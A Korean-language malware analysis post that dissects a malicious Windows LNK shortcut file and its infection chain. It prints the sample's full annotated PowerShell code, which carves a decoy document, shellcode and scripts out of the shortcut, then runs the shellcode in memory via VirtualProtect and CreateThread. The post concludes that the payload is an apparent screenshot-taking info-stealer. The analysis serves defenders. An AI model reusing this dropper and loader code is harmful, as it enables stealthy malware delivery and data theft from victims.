



LNK 파일은 바로가기 파일이라고 불리며, 사용자로 하여금 클릭을 유도하여 악성코드를 실행하는 방식을 사용합니다. 파일 내부에 또 다른 파일을 포함하고 있어 정상 LNK 파일과 다르게 파일 크기가 큰 것이 특징입니다. 일반적으로 위장용 정상 파일과 악성 행위을 위한 데이터가 존재합니다.


## <mark>1. LNK 파일</mark>

LNK 파일은 ShellLinkHeader 구조체로 시작합니다. 해당 구조체 내부에는 **CLSID_Shortcut = {00021401-0000-0000-C000-000000000046}**와 LNK 파일 내부 구성을 나타내는 **LinkFlags**가 존재합니다.


샘플의 경우, 0xE4(0b11100100) 값을 가지며 왼쪽 비트부터 is_unicode, has_icon_location, has_arguments, has_name 플래그들이 설정되었음을 의미합니다.


LNK 파일의 전체적인 구조는 아래와 같습니다. 이때 **LinkFlags에서 활성화되어 있지 않은 항목들은 생략**됩니다. 샘플은 name, arguments, icon_location 데이터로 구성되었음을 알 수 있습니다.

| LinkFlags     | Info                                                         |
| ------------- | ------------------------------------------------------------ |
| name          | lnk의 목적을 식별하기 위해 최종 사용자에게 표시되는 단축키에 대한 설명을 지정 |
| rel_path      | lnk가 포함된 파일을 기준으로 lnk 대상의 위치를 지정          |
| working_dir   | lnk 대상을 활성화할 때 사용할 작업 디렉토리의 파일 시스템 경로를 지정 |
| arguments     | lnk 대상을 활성화할 때 지정된 명령줄 인수를 저장             |
| icon_location | 아이콘 보기에서 lnk 항목을 표시할 때 사용할 아이콘의 위치를 지정 |


## <mark>2. 악성 LNK 파일 실행 흐름</mark>

악성 LNK 파일은 StringData들에 악성 명령어가 저장되어 있습니다. 사용자가 LNK 파일을 실행하면 저장되어 있던 명령어가 실행되게 됩니다.


악성 LNK 파일은 정상 LNK 파일보다 더 큰 크기를 가지고 있는데, 이는 **파일 내부에 파일 구조 이외의 데이터를 포함**하고 있기 때문입니다. 일반적으로 **위장용 정상 파일**과, **악성 행위 수행에 필요한 데이터**가 존재합니다. LNK 파일이 실행되면 명령어에 의해 위장용 정상 파일로 교체되며, 악성 행위 수행을 위한 데이터를 처리하여 악성 행위를 수행합니다.


## <mark>3. 악성 LNK 샘플 분석</mark>

### ▪ <u>악성 LNK 파일 실행</u>

악성 LNK 파일의 속성창을 확인해보면 cmd 명령어가 존재하는 것을 확인할 수 있습니다. 하지만 속성창으로 모든 명령어를 확인하는 것은 한계가 있습니다.


때문에 LNK 파일을 실행한 뒤, procmon을 확인하면 다음과 같이 어떤 cmd 명령어가 실행되었는지 확인할 수 있습니다.


확인된 cmd 명령어를 분석해보면, powershell 스크립트를 실행하여 아래와 같은 파일 내부에 숨겨진 위장용 정상 DOC 문서를 오픈하는 행위를 통해 사용자가 정상 파일을 실행했다고 착각하게 유도합니다. 하지만 실제 행위는 LNK 파일 내부에 존재하는 데이터를 사용하여 악성 행위를 수행합니다.




### ▪ <u>powershell 스크립트 분석</u>

promon에서 LNK 파일 오픈 시, 실행되는 powershell 코드를 확인할 수 있습니다. 파일 데이터를 파싱하여 위장용 정상 DOC 문서를 오픈하고 악성 행위 수행에 필요한 파일들을 생성합니다.




#### 1. powershell.exe를 검색하여 실행하는 코드

```powershell
# powershell 폴더에서 powershell을 실행하기 위한 코드
"C:\Windows\SysWOW64\cmd.exe" /k for /f "tokens=*" %a in ('dir C:\Windows\SysWow64\WindowsPowerShell\v1.0\*rshell.exe /s /b /od') do call %a
```


#### 2. lnk 파일 식별 후, 파일 객체 생성

```powershell
# $dirPath = Get-Location 현재 디렉토리를 변수로 저장
$dirPath = Get-Location;

# 만약 $dirPath가 System32거나 Program Files면 $dirPath를 C:\Users\user\AppData\Local\Temp로 업데이트
if($dirPath -Match 'System32' -or $dirPath -Match 'Program Files') {$dirPath = 'C:\Users\user\AppData\Local\Temp'};

# *.lnk로된 파일 중 크기가 0x0325E0BC인 파일을 찾아 FullName을 $lnkPath로 설정
$lnkPath = Get-ChildItem -Path $dirPath -Recurse *.lnk | where-object {$_.length -eq 0x0325E0BC} | Select-Object -ExpandProperty FullName;

# $lnkPath를 열어 $lnkFile로 새 객체 생성
$lnkFile=New-Object System.IO.FileStream($lnkPath, [System.IO.FileMode]::Open, [System.IO.FileAccess]::Read);
```


#### 3. lnk 파일 내부에서 doc 파일 추출 및 실행

```powershell
# $lnkFile에서 0x0000108E 값을 찾음.
$lnkFile.Seek(0x0000108E, [System.IO.SeekOrigin]::Begin);

# $pdfFile 객체를 생성, 크기 0x0087F800
$pdfFile=New-Object byte[] 0x0087F800;

# $lnkFile에서 찾은 0x0000108E 부터 0x0087F800크기 만큼 읽음
$lnkFile.Read($pdfFile, 0, 0x0087F800);

# .lnk 확장자를 .doc로 변경하여 $pdfPath로 저장
$pdfPath = $lnkPath.replace('.lnk','.doc');

# Set-Content로 pdfFile의 내용을 Byte로 인코딩하여 $pdfPath에 저장
sc $pdfPath $pdfFile -Encoding Byte;

# pdfPath 실행
& $pdfPath;
```


#### 4. lnk 파일 내부에서 panic.dat 파일 추출

```powershell
# $lnkFile 파일에서 0x0088088E를 찾음.
$lnkFile.Seek(0x0088088E,[System.IO.SeekOrigin]::Begin);

# $exeFile 객체를 생성, 크기 0x000D9402
$exeFile=New-Object byte[] 0x000D9402;

# $lnkFile 파일에서 찾은 0x0088088E부터 0x000D9402 크기 만큼 읽음
$lnkFile.Read($exeFile, 0, 0x000D9402);

# public 경로 + \ + panic.dat으로 $exePath 설정
$exePath=$env:public+'\'+'panic.dat';

# Set-Content로 $exeFile의 내용을 Byte로 인코딩하여 $exePath에 저장;
sc $exePath $exeFile -Encoding Byte;

```


#### 5. lnk 파일 내부에서 para.dat 파일 추출

```powershell
# 0x00959C90를 찾음
$lnkFile.Seek(0x00959C90,[System.IO.SeekOrigin]::Begin);

# 0x000005A9 크기의 $stringByte 객체 생성
$stringByte = New-Object byte[] 0x000005A9;

# 0x000005A9 크기 만큼 읽음.
$lnkFile.Read($stringByte, 0, 0x000005A9);

# para.dat 파일 경로를 생성
$batStrPath = $env:temp+'\'+'para.dat';

# $stringByte를 utf8로 인코딩
$string = [System.Text.Encoding]::UTF8.GetString($stringByte);

# $batStrPath로 ascii 인코딩하여 파일 생성
$string | Out-File -FilePath $batStrPath -Encoding ascii;

```


#### 6. lnk 파일 내부에서 price.bat 파일 추출 및 실행

```powershell
# 0x0095A239를 찾음
$lnkFile.Seek(0x0095A239,[System.IO.SeekOrigin]::Begin);

# 0x00000135 크기의 객체 생성
$batByte = New-Object byte[] 0x00000135;

# 0x00000135 크기만큼 읽음.
$lnkFile.Read($batByte, 0, 0x00000135);

# price.bat 경로를 생성
$executePath = $env:temp+'\'+'price.bat';

# $executePath 출력
Write-Host $executePath;

# $batStrPath 출력
Write-Host $batStrPath;

# $batByte를 utf8로 인코딩하여 $bastString에 저장
$bastString = [System.Text.Encoding]::UTF8.GetString($batByte);

# $executePath에 $bastString을 저장
$bastString | Out-File -FilePath $executePath -Encoding ascii;

# $executePath 실행
& $executePath;
```


#### 7. 객체 정리 및 lnk 파일 삭제 후 종료

```powershell
# lnkFile 객체 닫기
$lnkFile.Close();

# $lnkPath를 삭제
remove-item -path $lnkPath -force;

# 종료
"&& exit
```


### ▪ <u>price.bat 분석</u>

LNK 파일에 의해 실행되는 **price.bat** 파일 내부를 확인해보면, 다음과 같은 파워셀 코드를 확인할 수 있습니다. **para.dat** 파일에 접근하여, 파일을 읽어들여 내부에 존재하는 script를 실행합니다.

```powershell
# powershell.exe 실행
start /min C:\Windows\SysWow64\WindowsPowerShell\v1.0\powershell.exe -windowstyle hidden

# para.dat 파일 경로 획득
$stringPath=$env:temp+'\'+'para.dat';

# para.dat 파일 내의 데이터 획득
$stringByte = Get-Content -path $stringPath -encoding byte;

# para.dat 내의 데이터를 utf8로 인코딩
$string = [System.Text.Encoding]::UTF8.GetString($stringByte);

# 인코딩한 데이터로 scriptblock을 생성
$scriptBlock = [scriptblock]::Create($string);

# 생성한 scriptblock을 실행
&$scriptBlock;
```


### ▪ <u>para.dat 분석</u>

**price.bat** 파일에 의해 실행되는 **para.dat** 파일은 스레드를 생성하여 악성  Shellcode 를 실행합니다.


#### 1. panic.dat 데이터 획득

```powershell
# panic.dat 파일 경로 획득
$exePath=$env:public+'\'+'panic.dat';

# 내부 데이터를 획득
$exeFile = Get-Content -path $exePath -encoding byte;
```


#### 2. SecurityProtocol 속성을 TLS 1.2로 설정

```powershell
# SecurityProtocol 속성을 TLS 1.2로 설정
[Net.ServicePointManager]::SecurityProtocol = [Enum]::ToObject([Net.SecurityProtocolType], 3072);
```


#### 3. kernel32 API 획득

```powershell
# "kernel32.dll"
$k1123 = [System.Text.Encoding]::UTF8.GetString(34) + 'kernel32.dll' + [System.Text.Encoding]::UTF8.GetString(34);

# GlobalAlloc 획득
$a90234s = '[DllImport(' + $k1123 + ')]public static extern IntPtr GlobalAlloc(uint b,uint c);';

# GlobalAlloc를 사용하기 위한 클래스 정의
$b = Add-Type -MemberDefinition $a90234s  -Name 'AAA' -PassThru;

# VirtualProtect 획득
$d3s9sdf = '[DllImport(' + $k1123 + ')]public static extern bool VirtualProtect(IntPtr a,uint b,uint c,out IntPtr d);';

# VirtualProtect를 사용하기 위한 클래스 정의
$a90234sb = Add-Type -MemberDefinition $d3s9sdf -Name 'AAB' -PassThru;

# CreateThread 획득
$b3s9s03sfse = '[DllImport(' + $k1123 + ')]public static extern IntPtr CreateThread(IntPtr a,uint b,IntPtr c,IntPtr d,uint e,IntPtr f);';

# CreateThread를 사용하기 위한 클래스 정의
$cake3sd23 = Add-Type -MemberDefinition $b3s9s03sfse  -Name 'BBB' -PassThru;

# WaitForSingleObject 획득
$dtts9s03sd23 = '[DllImport(' + $k1123 + ')]public static extern IntPtr WaitForSingleObject(IntPtr a,uint b);';

# WaitForSingleObject를 사용하기 위한 클래스 정의
$fried3sd23 = Add-Type -MemberDefinition $dtts9s03sd23 -Name 'DDD' -PassThru;
```


#### 4. Thread를 생성하여 shellcode 실행

```powershell
# panic.dat의 내부 데이터 길이를 획득
$byteCount = $exeFile.Length;

# GlobalAlloc으로 heap 할당
$buffer = $b::GlobalAlloc(0x0040, $byteCount + 0x100);

# VirtualProtect로 rwx 권한 부여
$old = 0;
$a90234sb::VirtualProtect($buffer, $byteCount + 0x100, 0x40, [ref]$old);

# 할당한 heap에 panic.dat의 내부 데이터 작성
for($i = 0; $i -lt $byteCount; $i++) {
	[System.Runtime.InteropServices.Marshal]::WriteByte($buffer, $i, $exeFile[$i]);
};

# CreateThread를 호출하여 작성한 panic.dat 내부 데이터 실행.
$handle = $cake3sd23::CreateThread(0, 0, $buffer, 0, 0, 0);

# 생성한 Thread가 종료될 때까지 대기
$fried3sd23::WaitForSingleObject($handle, 500 * 1000);
```


### ▪ <u>panic.dat 분석</u>

cff explorer를 사용하여 **panic.dat** 파일을 확인해보니, 내부에 shellcode가 존재하였습니다.


jmp2it을 사용하여 shellcode를 확인한 결과 tmp 파일을 생성하는 행위를 확인했습니다.



trid로 확인한 결과 jpg 파일이였고 확장자를 변경하여 확인해보니 스크린 샷이었습니다. 최종 악성코드는 **Info-Stealer**로 추정됩니다.


